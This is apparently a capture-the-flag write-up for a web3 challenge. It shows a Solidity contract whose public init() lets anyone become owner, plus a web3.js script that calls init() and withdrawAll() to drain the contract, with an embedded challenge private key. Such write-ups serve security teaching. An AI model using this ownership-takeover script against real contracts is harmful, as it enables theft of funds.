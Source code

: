 # OwnerCheap - web3

## Challenge

We get one challenge contract and its address, and want to get all value of it out of the contract. We also receive a account (including private key) on the chain which we can use to sign transactions.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.1;
contract Challenge {

	bool setup = false;
	address payable owner = payable(address(0x0));
	mapping(address => bool) public sameAddress;
	
	constructor() payable {
		if( sameAddress[address(0x0)] ) {
			init(); 
		}
	}

	modifier onlyOwner {
		require(msg.sender == owner);
		_;
	}
	
	function init() public {
		if( setup == false){ 
			setup = true;
			owner = payable(msg.sender);
		}
	}
	
	function withdrawAll() public onlyOwner {
		owner.transfer(address(this).balance);
	}
	
	function destroy() public onlyOwner {
		selfdestruct(owner);
	}
}
```

## Solution

as the mapping is intialized to 0, the init() function is not called in the constructor. So you can just call this function yourself, overwrite the owner and drain the contract. Example script can be found below.


```js
const Web3 = require('web3');
const abi = require('./abi.json');

const privateKey = '0xedbc6d1a8360d0c02d4063cdd0a23b55c469c90d3cfbc2c88a015f9dd92d22b3';
const account = '0x133756e1688E475c401d1569565e8E16E65B1337';
const contractAddress = '0x874f54e755ec1e2a9ea083bd6d9c89148cea34d4';
const recipientAddress = '0x133756e1688E475c401d1569565e8E16E65B1337';
const rpcUrl = 'https://ownercheap.insomnihack.ch:32792';

const web3 = new Web3(rpcUrl);
const contract = new web3.eth.Contract(abi, contractAddress);

async function init() {
const nonce = await web3.eth.getTransactionCount(account);
const gasPrice = await web3.eth.getGasPrice();

const functionAbi = contract.methods.init().encodeABI();

const txParams = {
to: contractAddress,
data: functionAbi,
gasPrice: gasPrice,
gas: 100000, // Add the gas parameter with a value of your choice
nonce: nonce
};

const signedTx = await web3.eth.accounts.signTransaction(txParams, privateKey);
const txReceipt = await web3.eth.sendSignedTransaction(signedTx.rawTransaction);
console.log(`Transaction Hash: ${txReceipt.transactionHash}`);
}

async function withdrawAll(recipient) {
const nonce = await web3.eth.getTransactionCount(account);
const gasPrice = await web3.eth.getGasPrice();

const functionAbi = contract.methods.withdrawAll().encodeABI();

const txParams = {
to: contractAddress,
data: functionAbi,
gasPrice: gasPrice,
gas: 100000, // Add the gas parameter with a value of your choice
nonce: nonce
};

const signedTx = await web3.eth.accounts.signTransaction(txParams, privateKey);
const txReceipt = await web3.eth.sendSignedTransaction(signedTx.rawTransaction);
console.log(`Transaction Hash: ${txReceipt.transactionHash}`);
}

async function initAndWithdrawAll(recipient) {
await init();
await withdrawAll(recipient);
}

initAndWithdrawAll(recipientAddress);

```

Just run this script and get the flag.